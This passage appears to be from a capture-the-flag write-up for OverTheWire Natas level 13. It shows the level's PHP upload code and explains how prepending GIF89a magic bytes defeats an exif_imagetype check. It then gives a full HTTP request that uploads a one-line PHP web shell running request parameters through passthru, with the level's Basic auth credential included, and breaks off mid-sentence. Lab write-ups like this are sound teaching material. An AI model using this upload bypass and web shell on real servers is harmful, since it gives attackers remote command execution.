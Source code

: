 ~~~php
    } else if(filesize($_FILES['uploadedfile']['tmp_name']) > 1000) {
        echo "File is too big";
    } else if (! exif_imagetype($_FILES['uploadedfile']['tmp_name'])) {
        echo "File is not an image";
    } else {
        if(move_uploaded_file($_FILES['uploadedfile']['tmp_name'], $target_path)) {
            echo "The file <a href=\"$target_path\">$target_path</a> has been uploaded";
        } else{
            echo "There was an error uploading the file, please try again!";
        }
    }
} else {
?>

<form enctype="multipart/form-data" action="index.php" method="POST">
<input type="hidden" name="MAX_FILE_SIZE" value="1000" />
<input type="hidden" name="filename" value="<? print genRandomString(); ?>.jpg" />
Choose a JPEG to upload (max 1KB):<br/>
<input name="uploadedfile" type="file" /><br />
<input type="submit" value="Upload File" />
</form>
<? } ?>  
~~~
It seems we can upload images, restricted to jpeg. This time they have added an exif_imagetype check to see if it
actually is an image. 
It's quite easy to fool this check, so we are able to uplad what we want anyway. exif_imagetype only checks
the first few [magic bytes](https://en.wikipedia.org/wiki/List_of_file_signatures) to see if this is an image, so we can just prepend our php file with these bytes,
and bob's your uncle.
~~~
POST /index.php HTTP/1.1
Host: natas13.natas.labs.overthewire.org
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://natas13.natas.labs.overthewire.org/
Content-Type: multipart/form-data; boundary=---------------------------5940814761936928397739684905
Content-Length: 513
Authorization: Basic bmF0YXMxMzpqbUxUWTBxaVBaQmJhS2M5MzQxY3FQUVpCSnY3TVFiWQ==
Connection: close
Upgrade-Insecure-Requests: 1

-----------------------------5940814761936928397739684905
Content-Disposition: form-data; name="MAX_FILE_SIZE"

1000
-----------------------------5940814761936928397739684905
Content-Disposition: form-data; name="filename"

test.php
-----------------------------5940814761936928397739684905
Content-Disposition: form-data; name="uploadedfile"; filename="test.php"
Content-Type: text/php

GIF89a
<?php echo(passthru($_REQUEST["test"]));?>
-----------------------------5940814761936928397739684905--
~~~
Resulting in `File uploaded successfully` and a link to the file. Now its just a matter of opening the url, view source, 